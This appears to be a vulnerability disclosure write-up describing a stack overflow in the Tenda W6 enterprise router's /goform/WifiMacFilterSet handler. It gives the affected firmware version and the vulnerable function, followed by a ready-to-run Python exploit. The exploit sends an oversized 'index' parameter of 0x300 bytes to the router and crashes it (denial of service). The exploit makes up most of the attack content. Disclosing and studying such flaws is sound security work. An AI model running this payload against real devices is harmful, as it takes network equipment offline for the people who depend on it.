

# Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 

Tenda W6 is an enterprise wireless AP router from Shenzhen Tenda Technology (Tenda) in China.

A stack overflow vulnerability exists in /goform/WifiMacFilterSet in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

Firmware Download Address：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/WifiMacFilterSet

formWifiMacFilterSet() Function



v12 stack overflow

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterSet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x300

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration](./video/1.mp4)
